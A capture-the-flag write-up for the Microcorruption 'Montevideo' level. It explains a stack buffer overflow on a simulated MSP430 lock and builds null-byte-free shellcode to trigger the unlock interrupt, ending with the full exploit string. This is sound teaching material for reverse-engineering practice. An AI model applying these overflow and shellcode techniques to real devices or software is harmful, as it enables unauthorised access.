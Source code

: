 ```yaml
---
id: study-microcorruption-montevideo
aliases: []
tags:
  - microcorruption
  - montevideo
---
```


# Microcorruption

[Microcorruption](https://www.microcorruption.com) CTF is a capture the flag (CTF) competition designed to teach
low-level reverse engineering by pitting the user against a lock mechanism
running on a simulated MSP430 controller. The user exploits MSP430 assembly
to gain access to the device and unlock the door.

## Microcorruption (Montevideo)

- This is Software Revision 03. We have received unconfirmed reports
  of issues with the previous series of locks. We have reimplemented
  much of the code according to our internal Secure Development
  Process.

## Long Passwords

Let's test a long input: `0102030405060708090A0B0C0D0E0F101112131415161718191A1B1C1D1E1F`

This stores the input starting at `0x43EE` and allows input up to `0x441E` (48 bytes)

## `<main>`

```assembly
call  #0x44f4 <login>
```

## `<login>`

```assembly
call  #0x4446 <conditional_unlock_door>
tst   r15
jz    $+0x8 <login+0x48>
mov   #0x44c5 "Access granted.", r15
jnz   $+0x6 <login+0x4c>
mov   #0x44d5 "That password is not correct.", r15
call  #0x45b0 <puts>
add   #0x10, sp
ret
```

Investigating for the previous weakness found in the [Whitehorse](https://bryan-melanson.github.io/blog/articles/microcorruption-06-whitehorse.html) exercise, when
overflowing the input buffer with the above string the `<login>` function
returns to whatever is in the 17-18 bytes (`0x1211` in our case).

But trying the previous solution `30127f00b0123245090A0B0C0D0E0F101112` the program
returns to `0x443C`. Something in the string is handled differently than the
test input.

## `<strcpy>`

```assembly
mov     r15, r13
jmp     $+0x6 <strcpy+0x8>
inc     r14
inc     r13
mov.b   @r14, r12
mov.b   r12, 0x0(r13)
tst.b   r12                   ; Is the byte 0x00?
jnz     $-0xc <strcpy+0x4>    ; If not jump back and get the next
ret
```

The function that copies the input runs until it hits an `0x00`, which ends the input.

Removing the `00` from the input returns to the `0x1211` address, so the shell code
needs some altering to get this to run.

## Changing Shell Code

The [Whitehorse](https://bryan-melanson.github.io/blog/articles/microcorruption-06-whitehorse.html) solution used this code to execute the door unlock interrupt:

```assembly
push  #0x7f
call  #0x4532 ; <INT>
```

But the disassembled form of this code has a `0x00` byte that causes the input
buffer to cut off: `30127f00b0123245`

The `<INT>` function uses the current value pushed to the SP as its arg, so to
get around the `0x00` byte in `#0x007F` that the 16-bit architecture
interprets `0x7F` as, we have to use 16-bit immediate values without `0x00` bytes
as our inputs to generate the `0x7F` byte. We'll use R6, which is unused,
to calculate the value.

```assembly
clr     r6              ; R6 = 0x0000
add     #0xEFEF, r6     ; R6 = 0x0000 + 0xEFEF = 0xEFEF
add     #0x1090, r6     ; R6 = 0xEFEF + 0x1090 = 0x007F (wraps to 16-bit)
push    r6              ; push 0x007F
call    #0x454C         ; <INT>
```

Which is `06433650efef365090100612b0124c45` (16 bytes). Adding the address bytes to 17-18 should allow us to execute the shell code.

## Solution

`06433650efef365090100612b0124c45EE43`
